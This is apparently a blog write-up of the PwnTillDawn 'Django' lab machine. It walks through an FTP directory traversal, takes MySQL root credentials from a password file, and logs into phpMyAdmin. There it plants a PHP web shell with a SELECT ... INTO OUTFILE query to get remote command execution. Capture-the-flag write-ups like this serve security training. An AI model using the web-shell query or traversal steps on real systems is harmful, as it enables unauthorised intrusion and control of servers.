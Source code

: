 ```yaml
---
title: Django Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-28 11:33:00 +0800
categories: [Blogging, PwnTillDawn]
tags: [writeups, exploit-db, ftp, phpmyadmin, php rce]
math: true
mermaid: true
---
```


(image)<br><br>

**> Information Gathering**<br>
In every engagement, one has to gather information first. As usual we run our nmap scan and from we can see that port 21 (ftp), 80 (http), 443 (ssl), 3306 (mysql) & 8089 (splunkd) are open.<br>
(nmap anonymous)<br>

FTP service running on the target has anonymous login enabled. So we log in with `anonymous` as a username and continued to gather more information.<br>
(ftp login)<br>

During the anonymous login, FTP printed the banner `220-Wellcome to Home Ftp Server!`. This banner does not look like the usual banner on FTP services. This is interesting to look at could be a different ftp sofware installed on the target.<br>
(ftp banner)<br>

A quick research on google shows that some version of `Home Ftp Server!` are vulnerable and tehre are some exploits out there.<b>
(google)<br>

We found an exploit on <a href="https://www.exploit-db.com/exploits/15349">Exploit-DB</a> which states that `Home FTP Server version 1.11.1.149` has `Directory Traversal` vulnerability. <br>
(exploitdb)<br>

To exploit this vulnerability, all we need to do is to apply `/..` to the path and we can retrieve files or navigate directories. <br>
(../image)<br>

Typing `cd /..` takes us to the root path as seen in teh screenshot above. Indeed this version is vulnerable to `Directory Traversal`. After a couple of minutes, i found a `passwords.txt` file in the `/../xampp` directory and quickly grabbed this file to my machine. <br>
(passwords.txt )<br>

Reading the contents of `passwords.txt` revealed credentials to `MySQL (phpMyAdmin)`. The credentials found was `root:thebarrierbetween`.<br>
(credentials)<br>

From nmap we know that this target has a webserver running on port 80. Browsing to port 80 we can see the default page of xampp webapp. This is no suprpise since we saw xampp from FTP session<br>
(web page)<br>

On the upper-right corner on the dashboard we can see `phpMyAdmin`. Clicking on it leads us to `phpMyAdmin` login page. <br>
(phpmmyadmin)<br>

We have the credentials already. I input the credentials `root:thebarrierbetween` on the login page.<br>
(login pphp)<br>

A successful login should lead you to the admin dashboard. Remember you logged in as `root` user so we have full control over the database. There is a 90% chance that we can use `SQL Query` to create  a `php backdoor`.<br>
(dashboard)<br>  

Click on `SQL`, and type the following query `SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"` from ftp, we can confirm the path of `xampp` on the target. Click on `go` to create our backdoor.<br>
(sql creatte query)<br>

Log into `FTP` again, navigate to the `/../xampp/htdocs` directory to check if your file `backdoor.php` exists. If it exists, then we are 2 steps away from gaining `code execution` on the target.<br>
(ftp file)<br>

Navigate to http://10.150.150.212/backdoor.php?cmd=whoami and we have `code execution` on the target. You can replace `whoami` in the url with any windows commands. Good luck getting shell.<br>
(image rce)<br> 


Referrence: <a href="https://online.pwntilldawn.com/">PwnTillDawn Online battlefield</a>